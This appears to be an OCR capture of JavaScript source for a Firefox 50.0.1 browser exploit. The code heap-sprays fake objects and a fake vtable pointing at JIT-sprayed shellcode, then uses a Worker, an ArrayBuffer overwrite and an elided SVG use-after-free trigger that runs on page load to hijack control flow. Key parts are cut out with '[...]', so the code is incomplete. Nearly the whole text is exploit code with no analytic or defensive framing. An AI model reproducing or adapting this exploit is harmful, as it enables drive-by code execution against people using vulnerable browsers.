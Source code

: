 ```js
function heap_spray_fake_objects(){
    var heap = []
    var current_address = 0x08000000
    var block_size = 0x1000000
    while(current_address < object_target_address){
        var heap_block = new Uint32Array(block_size/4 - 0x100)
        for (var offset = 0; offset < block_size; offset += 0x100000){

            /* fake object target = ecx + 0x88 and fake vtable*/
            heap_block[offset/4 + 0x00/4] = object_target_address
            /* self + 4 */
            heap_block[offset/4 + 0x14/4] = object_target_address
            /* the path to EIP */
            heap_block[offset/4 + 0x18/4] = 4
            heap_block[offset/4 + 0xac/4] = 1
            /* fake virtual function --> JIT target */
            heap_block[offset/4 + 0x138/4] = jit_payload_target 
        }
        heap.push(heap_block)
        current_address += block_size
    }
    return heap
}

/* address of fake object */
object_target_address = 0x30300000

/* address of our jitted shellcode */
jit_payload_target = 0x1c1c0054

spray_asm_js_modules()
heap = heap_spray_fake_objects()

s='data:javascript,self.onmessage=function(msg){postMessage("one");postMessage("two");};';
var worker = new Worker(s);
worker.postMessage("zero");
// [...]
var block80 = new ArrayBuffer(0x80);
// [...]
var offset = 0x88 // Firefox 50.0.1

var exploit = function(){
    var u32 = new Uint32Array(block80)

    u32[0x4] = arrBase - offset;
    u32[0xa] = arrBase - offset;
    u32[0x10] = arrBase - offset;

    // Playing with the SVG container and animations to trigger interesting code path
    // that will lead to control flow hijacking
    // [...]
}

worker.onmessage = function(e) {arrBase=object_target_address; exploit()}

var trigger = function(){
    // Some SVG magic that triggers the UAF
    // [...]
}

window.onload = trigger;
```
